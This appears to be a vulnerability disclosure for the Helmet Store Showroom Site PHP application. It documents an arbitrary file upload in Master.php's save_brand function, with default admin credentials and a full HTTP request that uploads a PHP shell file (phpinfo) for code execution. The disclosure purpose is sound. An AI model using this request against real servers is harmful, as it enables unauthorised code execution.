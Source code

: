 # Helmet Store Showroom Site Syste -  arbitrary code execution (RCE)

A vulnerability classified as problematic was found in Helmet Store Showroom Site Syste. This vulnerability affects $save_brand code. The manipulation of the argument /classes/Master.php file exists arbitrary file upload (RCE)

username:admin password:admin123 ----> {ip}/classes/Master.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

Vulnerability url:  http://localhost/CVE/hss/classes/Master.php?f=save_brand

Payload:
```php
<?php
phpinfo();
?>
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/15.png)

## Payload

Request package for file upload：

```s
POST http://localhost/CVE/hss/classes/Master.php?f=save_brand HTTP/1.1
Host: localhost
Content-Length: 1117
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi35xdW2iqFM0SvW8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/admin/?page=brands
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="name"

test
------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryi35xdW2iqFM0SvW8--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/11.png)

The files will be uploaded to this directory \hss\uploads\brands

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/16.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/17.png)